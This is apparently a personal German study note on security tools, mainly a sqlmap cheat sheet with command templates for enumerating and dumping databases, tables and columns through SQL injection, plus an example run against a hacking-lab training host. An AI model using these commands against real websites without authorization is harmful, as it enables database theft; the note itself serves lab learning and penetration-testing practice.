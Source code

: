 ## [Virustotal](https://www.virustotal.com/gui/home/upload)
- Online Antivirenscanner mit vielen bekannten Scannern

## [sqlmap](https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/)
- #SQLi Penetration Testing Tool
- Zugriff auf Kommandozeile: `sqlmap.py`
	- Muss in PATH sein
- Mit `sql-query` [SQL-Requests](https://i-am-takuma.medium.com/sqlmap-cheat-sheet-8dc29054528c) durchführen

### Syntax
- Alles (DBs / Tabellen) auf Website anzeigen(dauert lange):
```
sqlmap.py -u [GET-URL] -a
```

- Alle Daten von einer Tabelle anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] -T [Tablename] --dump
```

- DBs auf Website anzeigen:
```
sqlmap.py -u [GET-URL] --dbs
```

- Tabellen von bestimmter DB anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] --tables
```

- Spalten von bestimmter Tabelle anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] -T [Tablename] --columns
```

- Daten von bestimmter Spalten anzeigen:
```
sqlmap.py -u [URL mit GET] -D [Databasename] -T [Tablename] -C [Columname] --dump
```

### Beispiel
1. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann --dbs
```

![[CleanShot 2022-09-07 at 11.17.29.png]]

2. 
```
sqlmap.py -u https://c8d0aa75-b9aa-4935-b206-2b0eaab5ecd5.idocker.vuln.land/space/mkaufmann -D laravel --tables
```
